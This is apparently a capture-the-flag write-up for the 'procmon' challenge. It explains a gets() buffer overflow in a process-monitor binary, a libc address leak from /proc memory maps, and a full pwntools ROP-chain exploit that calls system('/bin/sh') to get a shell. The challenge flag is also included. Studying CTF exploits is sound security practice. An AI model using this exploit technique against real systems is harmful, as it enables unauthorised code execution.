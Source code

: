 # procmon

Author: nordbo

Flag: `EPT{overfl0w_in_th3_m0n1t0r}`

## Solve

The binary gives us 3 options. 
```sh
$ nc io.ept.gg 30001

Menu:
1. List all running processes
2. Get details for a given process
3. Exit
Enter your choice:
```


By listing all running processes we get this
```sh
Enter your choice: 1
USER       PID   COMMAND
ept        1     /bin/sh
ept        7     ./ynetd
ept        206   sh
ept        207   ./process_monitor
```

And by listing details for the `./process_monitor` process we get this
![](img1.png)
This is the entire virtual memory map of the process, and we can use this info to call functions in libc.

#### Reversing the binary
The `show_process_detail` function is vulnerable to a buffer overflow because of the use of `gets`
```c
void show_process_detail(void)

{
  int iVar1;
  char *pcVar2;
  char local_322 [10];
  char local_318 [512];
  char local_118 [256];
  FILE *local_18;
  uint local_c;
  
  printf("Enter the PID of the process: ");
  gets(local_322);
  local_c = atoi(local_322);
  snprintf(local_118,0x100,"/proc/%d/status",(ulong)local_c);
  local_18 = fopen(local_118,"r");
  if (local_18 == (FILE *)0x0) {
    perror("Could not fetch details");
  }
[...]
```


#### Finding offsett
By sending in a long enough pattern we get a segfault:
![](img2.png)

Then we find the offsett in pwndbg:
![](img3.png)
```sh
$ pwn cyclic -l 0x6163696161626961
802
```


#### Parsing libc
The next step was to parse the libc leak into the pwntools script. This took way to much time for me, and the function I created was pretty bad. I basically just called `io.recvline` until i got to the correct line where the libc base was located. I created one for local and one for remote. 
```python
def leaklibc():
    io.recvuntil(b"Enter your choice: ")
    io.sendline(b"1")

    if args.LOCAL:
        processes = b""
        for i in range(98):
            processes += io.recvline()
        find = re.findall(b"\n.*process_monitor.*\n", processes)[0]
        pid = find[len("\nkali       "):len("\nkali       ")+5]
        io.recvuntil(b"Enter your choice: ")
        io.sendline(b"2")
        io.recvuntil(b"Enter the PID of the process: ")
        io.sendline(pid)
        for i in range(16):
            io.recvline()
        
        return int(io.recvline()[:len("7fef1fb60000")], 16)

    else:
        processes = b""
        processes = io.recvline()
        processes += io.recvline()
        processes += io.recvline()
        processes += io.recvline()
        processes += io.recvline()
        processes += io.recvline()
        processes += io.recvline()

        
        pid = processes.split(b"\n")[4][len("ept        "):len("ept        ")+4]
        io.recvuntil(b"Enter your choice: ")
        io.sendline(b"2")
        io.recvuntil(b"Enter the PID of the process: ")
        io.sendline(pid)
        for i in range(16):
            io.recvline()
        return int(io.recvline()[:len("7fef1fb60000")], 16)
```


#### ROP-chain
From there on the solve was pretty standard. I created a ROP-chain with `pop rdi;ret`  `/bin/sh` `ret` and `system`
```python
libc = ELF("/home/kali/ctf/libc-database/db/libc6_2.35-0ubuntu3.4_amd64.so")
rop = ROP(libc)
io = start()

libcaddr = leaklibc()
log.info("Libc leak: " + hex(libcaddr))

libc.address = libcaddr
io.recvuntil(b"Enter your choice: ")
io.sendline(b"2")
io.recvuntil(b"Enter the PID of the process: ")

payload = b"A"*802
payload += p64(libcaddr + rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(next(libc.search(b"/bin/sh")))
payload += p64(libcaddr + rop.find_gadget(['ret'])[0])
payload += p64(libc.sym.system)
io.sendline(payload)

io.interactive()
```

By running this we get a shell!
![](img4.png)


